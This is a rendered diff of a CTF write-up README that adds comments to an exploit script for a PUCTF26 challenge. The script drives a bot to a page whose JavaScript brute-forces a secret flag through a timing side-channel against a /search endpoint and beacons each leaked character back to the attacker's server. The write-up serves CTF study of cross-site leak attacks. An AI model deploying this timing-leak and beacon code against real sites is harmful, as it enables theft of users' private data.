

Before and after one commit to taokyl/CTF_Writeups, a Markdown page: PUCTF26-HelloWorld/Leaky_CTF_Platform_Revenge_Revenge_Revenge/README.md, the part around one of its changes. Shown at 82% size. GitHub-like rendering; blank space fills up the shorter version.

```diff
--- a/PUCTF26-HelloWorld/Leaky_CTF_Platform_Revenge_Revenge_Revenge/README.md
+++ b/PUCTF26-HelloWorld/Leaky_CTF_Platform_Revenge_Revenge_Revenge/README.md
@@ -247,13 +284,14 @@ import requests
 from playwright.async_api import async_playwright
 
 CHAL_BASE = "http://chal.polyuctf.com:47263"
-STATE_FILE = Path("State.json")
+STATE_FILE = Path("State.json") # Persistent state file to resume brute-force from last known prefix
 
-TURNSTILE_WAIT = 120
-BOT_WAIT = 90
+TURNSTILE_WAIT = 120 # How long to wait for Turnstile token in browser
+BOT_WAIT = 90 # How long to wait for bot to finish visiting + leaking one char
 
 INTERNAL_FLAG_RE = re.compile(r"^leakyctf\{[0-9a-f]{8}\}$")
 REAL_FLAG_RE = re.compile(r"PUCTF26\{[A-Za-z0-9_]+_[0-9A-Fa-f]{32}\}")
+
 
 HTML_TEMPLATE = """<!doctype html>
 <meta charset="utf-8">
@@ -263,13 +301,15 @@ HTML_TEMPLATE = """<!doctype html>
 const PREFIX = "__PREFIX__"; // will be replaced with known flag part
 const TARGET = "http://localhost:5000/search?flag="; // the base url
 const HEX = "0123456789abcdef}"; // (not really hex because there is a close curly bracket but the well its the charset for brute)
-const FAST_ACCEPT_GAP = 8.0;
-const MIN_GOOD_SCORE = 10.0;
+const FAST_ACCEPT_GAP = 8.0;     // min difference between best & second-best to auto-accept
+const MIN_GOOD_SCORE = 10.0;     // minimum median delta to consider a candidate serious
 
+// Sleep duhh
 function sleep(ms) {
   return new Promise(r => setTimeout(r, ms));
 }
 
+// shuffle to randomize candidate order (avoids timing bias)
 function shuffle(arr) { // used to shuffle the candidate array
   const a = [...arr];
   for (let i = a.length - 1; i > 0; i--) {
@@ -279,11 +319,13 @@ function shuffle(arr) { // used to shuffle the candidate array
   return a;
 }
 
+// Find median duhh
 function median(vals) {
   const a = [...vals].sort((x, y) => x - y);
   return a[Math.floor(a.length / 2)];
 }
 
+// Beacon back to our server (no-cors so no preflight, cache busting)
 async function beacon(path, obj) { // send beacon back to host so we know what is going on during the brute
   const qs = new URLSearchParams(obj).toString();
   try {
@@ -291,7 +333,8 @@ async function beacon(path, obj) { // send beacon back to host so we know what i
   } catch (e) {}
 }
 
-async function waitAccessible(win) { // wait until the window is accessible
+// Wait until popup is same-origin accessible (after reset)
+async function waitAccessible(win) {
   while (true) {
     try {
       void win.location.href;
@@ -301,6 +344,7 @@ async function waitAccessible(win) { // wait until the window is accessible
   }
 }
 
+// Make a popup to /search and measure hit/miss time
 async function probe(win, prefix) {
   win.location = "/blank?x=" + Math.random();
   await waitAccessible(win);
@@ -318,6 +362,7 @@ async function probe(win, prefix) {
   }
 }
 
+// Do 2 probes (1 hit 1 miss) and measure delta
 async function deltaOnce(win, prefix) {
   const hit = await probe(win, prefix);
   await sleep(15 + Math.floor(Math.random() * 10));
@@ -325,6 +370,7 @@ async function deltaOnce(win, prefix) {
   return { delta: miss - hit, hit, miss };
 }
 
+// Collect multiple measurements for one prefix
 async function collect(win, prefix, rounds) {
   const ds = [];
   for (let i = 0; i < rounds; i++) {
```
Also changed, not shown: other parts of PUCTF26-HelloWorld/Leaky_CTF_Platform_Revenge_Revenge_Revenge/README.md (+88 -14 lines).
